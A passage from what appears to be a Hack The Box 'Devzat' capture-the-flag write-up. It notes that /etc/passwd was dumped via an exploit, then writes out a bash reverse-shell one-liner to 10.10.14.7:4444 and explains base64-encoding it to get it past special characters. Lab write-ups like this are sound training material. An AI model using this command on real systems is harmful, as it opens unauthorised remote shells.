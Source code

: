 ![Contents of /etc/passwd](/images/htb/devzat/git/dumping_etc_passwd.png)

Now that we now we can actually exploit this, we can execute a callback to a netcat listener.

We base64 encrypt the command `bash -i >& /dev/tcp/10.10.14.7/4444 0>&1` and then decrypt and
execute it in a one liner. This is done to avoid messing up the payload with special characters like
`"` or `'`.

